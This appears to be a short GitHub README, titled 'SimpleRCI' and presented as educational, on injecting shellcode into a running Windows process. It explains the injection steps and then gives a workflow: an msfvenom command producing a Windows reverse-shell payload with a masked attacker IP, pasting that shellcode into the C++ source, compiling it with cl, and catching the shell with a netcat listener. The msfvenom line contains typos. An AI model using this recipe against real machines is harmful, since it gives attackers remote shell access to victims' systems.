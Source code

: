 # SimpleRCI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..

after reading the script and understaing its all for educational purposes. 

so what is thread access injection ? 

Thread execution hijacking is a method used to control a running thread in a process. It starts by opening access to a process, then allocating memory within the process, writing malicious code (payload) into the allocated memory, creating a new thread in the process and starting it with the malicious code. This will cause the code to take control of the thread.

we test the script by create a vm in my case is kali linux . 

in the console we type the command below

```
ifconfig
```
then take the vm ip we want to use has a "hacker" machine

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
	options=3<RXCSUM,TXCSUM>
	ether xx:xx:xx:xx:xx:xx 
	inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```

i choose to use this exploit for the reverseshell , of course you can choose any 

```
msfvenom -p windows/×64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
then we have the shell code 

and we will insert it to ``` shellcode[] = {`here`}```

![Screenshot 2023-01-24 at 10 50 42](https://user-images.githubusercontent.com/122444563/214353717-a4f88edd-6681-48d0-bb67-f75a74b88bd6.png)


once we have the script has it shown in screenshot above 
we will change the filemode for .exe 

```cl /Tc <filename>.cpp```

change back to the vm and listen to the port we specify 
```nc -nlvp 4444```






